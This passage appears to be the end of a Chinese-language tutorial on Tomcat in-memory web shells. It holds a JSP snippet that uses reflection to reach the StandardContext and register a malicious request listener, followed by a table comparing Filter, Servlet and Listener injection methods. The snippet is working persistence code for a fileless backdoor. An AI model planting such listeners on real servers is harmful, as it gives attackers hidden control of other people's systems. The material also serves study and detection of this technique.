 ```java
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
S servletRequestListener = new S();
standardContext.addApplicationEventListener(servletRequestListener);
out.println("inject success");
%>
```
## 总结
以上三种根据Servlet的特性，动态注入，jsp文件只要落地，即可动态加载到内存中

| 姿势 | 优点 | 缺点 |
| --- | --- | --- |
| Filter |1.通过添加全局拦截器对参数进行拦截，来进行恶意代码执行<br />2.通过添加filtermap，可以随便设置路由，所有请求都会过该拦截器|1.引入`filterMaps`，`filterDef`，要根据tomcat版本来判断<br />2.代码量较高|
| Servlet |1. 简单方便，了解Servlet生命周期即可<br />2.更直观了解如何动态添加ServletMapping<br />|1.无法使所有参数都经过恶意代码，只能在我们自己设定的url中才能触发|
| Listener |1. 简单方便，通过添加监听器对request进行监控<br />2. 在任意url中都能设置我们监听的参数|1. 只要监听的参数含有就会进入监听代码中<br />2. 如果在该jsp页面下访问，则会重放请求|
